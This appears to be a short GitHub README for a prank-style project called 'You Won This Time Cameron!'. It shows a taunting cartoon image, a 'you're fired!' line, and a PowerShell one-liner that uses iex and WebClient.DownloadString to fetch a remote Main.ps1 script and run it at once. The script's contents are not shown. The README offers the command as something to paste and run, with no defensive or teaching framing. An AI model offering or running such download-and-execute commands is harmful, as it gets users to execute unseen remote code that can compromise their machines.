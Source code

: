 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))\

Also, you're fired!\
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
